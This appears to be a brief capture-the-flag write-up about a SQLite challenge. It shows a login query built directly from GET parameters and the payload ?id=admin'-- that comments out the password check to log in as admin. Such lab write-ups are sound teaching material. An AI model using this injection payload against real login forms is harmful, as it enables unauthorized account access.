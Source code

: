 ```yaml
---
custom_edit_url: null
sidebar_position: 37
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/ee1b1690-7edb-48f2-9c67-11fe997c203d)

We are provided with the SQLite query:

```sqlite
SELECT id FROM member WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In SQLite the comment character is `--`.

If we provide the following URI parameter:

```
?id=admin'--
```

The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin'--' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d8bbcea4-8ed4-43df-87be-e2c7d20fe5f0)
